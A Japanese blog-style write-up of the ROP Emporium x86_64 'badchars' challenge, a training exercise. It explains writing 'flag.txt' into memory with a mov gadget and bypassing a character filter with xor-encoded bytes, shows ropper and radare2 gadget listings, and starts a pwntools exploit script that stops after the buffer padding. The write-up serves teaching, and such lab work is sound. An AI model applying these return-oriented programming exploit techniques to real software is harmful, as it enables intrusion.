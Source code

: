 ```yaml
---
title: ROP Emporium x86_64 writeup 2/2
date: 2022-11-13
---
```


[前回](https://cashitsuki.com/posts/2022-10-19-rop-emporium-x86-64-writeup-01/)の続き。

## Challenge 5 badchars

[問題へのリンク](https://ropemporium.com/challenge/badchars.html)

`print_file`という引数をひとつ取る関数がある。これは引数に渡した文字列をファイルパスと解釈してそのファイルの内容を出力してくれる。引数に`flag.txt`を渡せば解答になるけれど2つ問題がある。

1. バイナリのどこにも`flag.txt`の文字列が無い。そのためメモリのどこかに`flag.txt`の文字列を書き込んでそのポインタを`print_file`関数に渡す必要がある
2. 攻撃の起点となる`pwnme`関数には標準入力から受け取った文字を探索して特定の文字列('x', 'g', 'a', '.')をフィルタリングする機能があるのでこれを迂回する必要がある


1については` mov qword ptr [r13], r12; ret;`というガジェットがあるのでこれを利用できる。

```
$ropper -f badchars
(...snip...)
0x0000000000400634: mov qword ptr [r13], r12; ret; 
```

2は`usefulGadgets`というセクションを覗いてみると`xor byte [r15], r14b`というガジェットがある。予め`flag.txt`の文字列をフィルタリングに引っかからない文字列にエンコードしておき、ROPの中でこれを使ってデコードすれば検知をすり抜けることができる。

```
[0x00400628]> pd
            ;-- usefulGadgets:
            0x00400628      453037         xor byte [r15], r14b
            0x0040062b      c3             ret
            0x0040062c      450037         add byte [r15], r14b
            0x0040062f      c3             ret
            0x00400630      452837         sub byte [r15], r14b
            0x00400633      c3             ret
            0x00400634      4d896500       mov qword [r13], r12
            0x00400638      c3             ret
            0x00400639      0f1f80000000.  nop dword [rax]
```

```
#!/usr/bin/env python3
from pwn import *

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    p = process('./badchars')

    # prepare
    write_address    = 0x00601038 + 0x08
    print_file       = pack(0x00400510)
    bss              = pack(write_address)
    flag             = b'dnce,vzv' # xor 2(0x10) with each byte of `flag.txt`
    dummy            = pack(0xdeadbeefdeadbeef)
    pop_rdi          = pack(0x004006a3)
    pop_r12r13r14r15 = pack(0x0040069c)
    mov              = pack(0x00400634)

    # exploit
    # 1) set encoded string `flag.txt`
    payload  = b''
    payload += b'B' * 0x28
```